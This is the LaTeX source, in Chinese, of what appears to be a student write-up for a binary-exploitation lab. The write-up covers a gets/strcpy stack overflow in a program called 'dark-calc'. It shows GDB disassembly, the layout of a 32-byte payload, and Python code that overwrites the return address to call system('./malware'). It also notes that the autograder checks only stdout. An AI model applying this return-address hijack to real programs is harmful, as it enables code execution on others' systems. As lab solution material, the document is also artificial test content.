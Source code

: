 \documentclass[UTF8,11pt,fontset=fandol]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{lstlisting}
0x401a6b <eval+148>:  mov $0x6030d0,%edi
0x401a70 <eval+153>:  call 0x4017e0 <system@plt>
\end{lstlisting}

只要把返回地址改成 \code{0x401a6b}，\code{input} 一返回就会直接调用 \code{system(command\_buf)}，省掉 \code{eval} 的包装。\code{command\_buf} 是全局数组，地址 \code{0x6030d0}。\code{input} 在 \code{gets} 之后还会执行 \code{strcpy}，把 \code{expression} 复制进 \code{command\_buf}；\code{strcpy} 遇到第一个 \code{\textbackslash 0} 就停，所以 payload 开头写成 \code{"./malware\textbackslash 0"}，后面随便填，\code{command\_buf} 里最终只会留下 \code{"./malware"}。

payload 一共 32 字节：前 10 字节是 \code{"./malware\textbackslash 0"}，接着 14 个 \code{A} 填满 16 字节数组和保存的 \code{rbp}，最后 8 字节是 \code{0x401a6b}。

\begin{lstlisting}
payload  = b"./malware\x00"
payload += b"A" * (24 - len(payload))
payload += struct.pack("<Q", 0x401A6B)
\end{lstlisting}

运行时 \code{malware} 会顺着父进程链检查是不是 \code{dark-calc} 触发的，\code{system} 通过 \code{/bin/sh -c} 启动它，祖先进程正好是 \code{dark-calc}，所以检查通过。输出里有：

\begin{lstlisting}
### The bomb was triggered by the dark-calc process. ###
### You have successfully detonated the bomb! Congratulations! ###
\end{lstlisting}

GDB 在 \code{0x401a6b} 断下时 \code{rdi=0x6030d0}，\code{x/s 0x6030d0} 显示 \code{"./malware"}，和预期一致。消息打印完以后进程会因为被改坏的 \code{rbp} 在 \code{eval} 的 \code{leave; ret} 处挂掉（实测退出码 135），但那时输出已经写完了，自动评分只看标准输出，不影响结果。

\section{main 的机器码和栈上执行}

\subsection{main 的前三条指令}

在 \code{0x401ac3} 处断下，\code{x/9xb} 看到的是：

\begin{lstlisting}
0x401ac3 <main>:  0x55 0x48 0x89 0xe5 0xb8 0x00 0x00 0x00
0x401acb <main+8>:  0x00
\end{lstlisting}
\end{document}

